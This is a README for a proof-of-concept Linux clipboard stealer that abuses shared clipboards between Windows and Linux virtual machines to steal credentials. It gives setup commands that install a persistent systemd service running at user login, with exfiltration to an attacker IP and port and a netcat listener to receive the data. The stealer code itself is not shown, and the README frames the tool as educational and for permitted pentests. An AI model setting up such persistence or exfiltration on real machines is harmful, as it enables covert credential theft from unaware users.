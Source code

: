 # clipboard-stealer-poc - EDUCATIONAL PURPOSES ONLY
This is a linux clipboard stealer that takes advantage of shared clipboard between windows and linux virtual machines to steal credentials.
This should only be used during pentests or with permission of the device owner.
# Usage
- `sudo python3 setup.py <user> <path_to_clipboardstealer.py> <path_to_log_file> <attacker_ip> <attacker_port>`
- This sets up the systemd process that runs the clipboardstealer as a certain user every time that user logs in.
- It exfiltrates data to the attacker ip on the specified port; the data can be captured through nc -lvnp \<attacker_port\>.
- `sudo python3 remove.py`
- This removes the systemd process, but, you have to manually clean up the log and stealer file.
